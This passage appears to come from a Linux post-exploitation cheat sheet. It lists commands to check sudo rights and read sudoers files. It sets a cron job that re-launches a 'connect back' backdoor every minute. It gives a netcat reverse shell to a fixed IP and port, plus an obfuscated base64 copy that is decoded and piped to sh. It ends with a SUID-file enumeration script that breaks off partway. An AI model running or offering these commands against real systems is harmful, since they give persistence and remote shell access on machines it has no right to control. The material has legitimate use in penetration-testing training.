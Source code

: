 - Check if we can see `sudo` permissions

```bash
sudo -l
cat /etc/sudoers
cat /etc/sudoers.d/*
```

### Keep shell

- Schedule your connect back exploit

```bash
BACKDOOR='/tmp/meterpreter'; (crontab -l 2>/dev/null; echo "*/1 * * * * ${BACKDOOR}") | crontab -
```
### nc (without -e) shell

```bash
IP=10.0.0.1;PORT=12345;PIPE=$(mktemp -u);mkfifo ${PIPE};cat ${PIPE}|/bin/sh -i 2>&1|nc ${IP} ${PORT} > ${PIPE}
```

- Or as base64

```bash
echo SVA9MTAuMC4wLjE7UE9SVD0xMjM0NTtta2ZpZm8gL3RtcC9maWZvO2NhdCAvdG1wL2ZpZm98L2Jpbi9zaCAtaSAyPiYxfG5jICR7SVB9ICR7UE9SVH0gPiAvdG1wL2ZpZm8= | base64 -d | sh
```

### Priv ESC?

- Checkout: 
    - https://gtfobins.github.io/
    - https://github.com/rebootuser/LinEnum
    - https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

### Finding

- Manual (additional labour):

```bash
#!/bin/bash

BREAK="#------------------------------#"

EXCLUDED=(
    '^/sys' 
    '^/proc' 
    '^/usr/share'
    '^/var/lib'
    '/include/'
    '^/var/lib/dpkg/' 
    '^/usr/src/linux-headers-' 
    '^/var/cache/man/' 
    '^/var/cache/apt/archives/'
    '^/etc/fonts/'
    '^/usr/share/fonts/'
    '^/usr/share/icons/'
    '^/usr/share/man/'
    '^/lib/modules/'
    )
EXCLUDED=$( IFS=$'|'; echo "${EXCLUDED[*]}" )

echo "# SUID files:"
echo "${BREAK}"
find / -perm -4000 -type f 2>/dev/null | grep -Ev "${EXCLUDED[*]}" | xargs -L 1 ls -alhtr

echo "# Find files with added capabilities"
```
